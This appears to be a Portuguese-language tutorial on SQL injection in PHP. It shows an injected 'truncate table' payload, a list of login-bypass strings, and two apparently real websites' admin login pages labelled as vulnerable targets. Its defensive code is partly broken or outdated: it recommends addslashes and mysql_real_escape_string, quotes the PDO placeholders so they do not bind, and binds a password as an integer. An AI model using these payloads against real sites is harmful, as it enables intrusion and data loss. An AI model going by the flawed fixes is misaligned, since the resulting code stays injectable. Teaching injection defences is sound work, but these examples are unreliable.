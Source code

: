 # SQL Injection

Injeção direta de comandos SQL é uma técnica onde um atacante cria ou altera comandos SQL existentes para expor dados escondidos, ou sobrescrever dados valiosos, ou ainda executar comandos de sistema perigosos no servidor. Isso é possível se a aplicação pegar a entrada do usuário e combinar com parâmetros estáticos para montar uma consulta SQL.

 * Para evitar ataques deve-se tratar todos os dados de entrada que será utilizado em algum SQL, pode se tratar estes dados utilizando a função addslashes(), está função adiciona uma barra invertida antes de qualquer aspas simples e duplas.

 * Deve-se desabilitar os erros no servidor em produção de forma que se consiga apenas visualiza-los através de arquivos de logs.

 * A função mysql_real_escape_string() que escapa os caracteres especiais numa string para usar em um comando SQL, levando em conta o conjunto atual de caracteres.

 * Outra opção é utilizar o objeto PDO para executar as SQLs, pois usa-se o método bindParam para setar parametros nas query que serão executadas, se alguma irregularidade existir o MySQL não executará a query.

<br />

1) Exemplo de inserção de parametros sem tratamento:

```php
$nome = 'Pedro';
$email = 'pedro@oi.com.br';
$senha = '123456';

$sql = "insert into usuarios set nome = '{$nome}', email = '{$email}', senha = '{$senha}'";
```

<br />
2) Exemplo de inserção de parametros para se tentar provocar um erro de SQL com o intuito de tentar descobrir o nome da tabela:

```php
$nome = 'Pedro';
$email = 'pedro@oi.com.br';
$senha = "123456'asdfasdfasdfasdfasdf";

$sql = "insert into usuarios set nome = '{$nome}', email = '{$email}', senha = '{$senha}'";
```

<br />

3) Apagando todos os registros de usuários do sistema através do SQL injection:

```php
$nome = 'Pedro';
$email = 'pedro@oi.com.br';
$senha = "123456'; truncate table usuarios;";

$sql = "insert into usuarios set nome = '{$nome}', email = '{$email}', senha = '{$senha}'";
```

<br />

4) Como poderia ser evitado utilizando a função mysql_real_escape_string():
```php
$nome = mysql_real_escape_string('Pedro');
$email = mysql_real_escape_string('pedro@oi.com.br');
$senha = mysql_real_escape_string("123456'; truncate table usuarios;");

$sql = "insert into usuarios set nome = '{$nome}', email = '{$email}', senha = '{$senha}'";
```

<br />

5) Utilizando objeto PDO para executar as querys no banco:

```php
$nome = 'Pedro';
$email = 'pedro@oi.com.br';
$senha = "123456'; truncate table usuarios;";

$sql = "insert into usuarios set nome = ':nome', email = ':email', senha = ':senha'"; 
$stmt = $pdo->prepare($sql);
$stmt->bindParam(':nome', $nome, PDO::PARAM_STR);
$stmt->bindParam(':email', $email, PDO::PARAM_STR);
$stmt->bindParam(':senha', $senha, PDO::PARAM_INT);
$stmt->execute();
```

<br />
Exemplos:
```php
' or ''='
' or true--
' or true
") or true--
") or ("")=("
") or 1--
") or ("x")=("
')) or true--
')) or ((''))=(('
')) or 1--
')) or (('x'))=(('
```

Sites vulneráveis:<br />
* http://www.i2t2.com/admin/login.php
* http://www.bitaraf.com/admin/login.php

<br />
Referências:

 * http://php.net/manual/pt_BR/security.database.SQL-injection.php
 * http://php.net/manual/pt_BR/function.mysql-real-escape-string.php
 * http://bazaglia.com/como-evitar-completamente-SQL-injection-no-php
 * http://securityidiots.com/Web-Pentest/SQL-Injection/bypass-login-using-sql-injection.html
